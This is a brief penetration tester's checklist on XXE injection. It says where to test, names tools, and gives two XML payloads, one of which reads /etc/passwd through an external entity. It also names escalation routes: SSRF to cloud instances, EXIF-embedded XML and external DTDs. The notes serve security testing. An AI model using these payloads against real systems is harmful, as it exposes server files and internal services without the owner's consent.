 # Where
  - in XML post data
  - in JSON post data

# Tools
  -content type converter in Burp : convert JSON to XML and opposite
  -exif editor : to change exif data of images to include XML
  
# How to test
  - Try to convert json data to xml and see if application still respond
  - Try to had an entity
```<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```
  - Read files
```<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
````
  - XXE to SSRF : Put a link to other assets or aws instance for example instead of a file
  - You can also base64 encode the file 
  - You can put an XML in image Exif data 
  - Use External DTD to escalate XXE

# Ressources 
  - Payloadallthethings
  - Hacktricks 
